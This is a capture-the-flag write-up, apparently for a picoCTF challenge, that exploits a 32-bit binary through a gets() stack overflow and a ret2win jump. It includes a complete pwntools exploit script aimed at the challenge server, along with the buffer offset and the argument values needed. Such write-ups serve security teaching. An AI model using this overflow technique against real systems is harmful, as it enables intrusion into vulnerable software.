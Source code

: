 ## 🏴 Challenge Write-Up: `vuln` Binary – Ret2win Exploit

### 🔍 Challenge Overview

We are given a 32-bit binary (`vuln`) with the following properties:

* Contains a vulnerable function: `gets()` (no bounds checking).
* Contains a hidden `win()` function that prints the contents of `flag.txt`, but only **if** given the correct arguments:

  ```c
  if (arg1 != 0xCAFEF00D)
      return;
  if (arg2 != 0xF00DF00D)
      return;
  ```
* We must **overflow the buffer**, **overwrite the return address**, and **call `win()`** with the correct arguments to retrieve the flag.

---

### 🔧 Binary Analysis

#### Protections:

```bash
checksec vuln
```

```
Arch:     i386-32-little
Canary:   No
NX:       Enabled
PIE:      No
RELRO:    Partial
```

* No stack canaries → buffer overflow possible.
* NX enabled → we cannot inject shellcode, so we use **ret2win**.
* No PIE → addresses are static and can be extracted directly.

---

### 📄 Source Code Summary

The vulnerable code:

```c
void vuln(){
  char buf[BUFSIZE];       // 100 bytes
  gets(buf);               // Vulnerable input
  puts(buf);               // Echo
}
```

And the target:

```c
void win(unsigned int arg1, unsigned int arg2) {
  ...
  if (arg1 != 0xCAFEF00D) return;
  if (arg2 != 0xF00DF00D) return;
  printf(buf);  // Prints the flag
}
```

Our goal is to:

1. Overflow `buf` in `vuln()`.
2. Overwrite the saved return address to jump to `win()`.
3. Provide the correct arguments in the right place (stack).

---

### 🧠 Exploitation Plan

#### 1. Find Offset:

Using cyclic patterns or trial-and-error, we determine the overflow offset:

```python
offset = 112
```

#### 2. Build Payload:

```python
payload = b"A" * offset           # Fills buffer + saved EBP
payload += p32(win_addr)          # Overwrites return address with address of win()
payload += b"B" * 4               # Filler for win()'s return address
payload += p32(arg1)              # First argument
payload += p32(arg2)              # Second argument
```

Stack after the overflow:

```
[... buffer ...][ret addr → win()][ret addr for win()][arg1][arg2]
```

---

### 💥 Final Exploit Script

```python
from pwn import *

DEBUG = False
HOST = 'saturn.picoctf.net'
PORT = 56954

elf = context.binary = ELF('./vuln')
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'i386'
context.log_level = 'debug'

offset = 112
win_addr = elf.symbols['win']
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

payload = b"A" * offset
payload += p32(win_addr)
payload += b"B" * 4
payload += p32(arg1)
payload += p32(arg2)

p.sendlineafter(b"Please enter your string:", payload)
p.interactive()
```

---

### 🎯 Outcome

![result](./img/result.png)

---

### 🧪 Bonus (Local Testing Tips)

If you want to test locally, create a `flag.txt`:

```bash
echo "picoCTF{test_flag_here}" > flag.txt
```

---


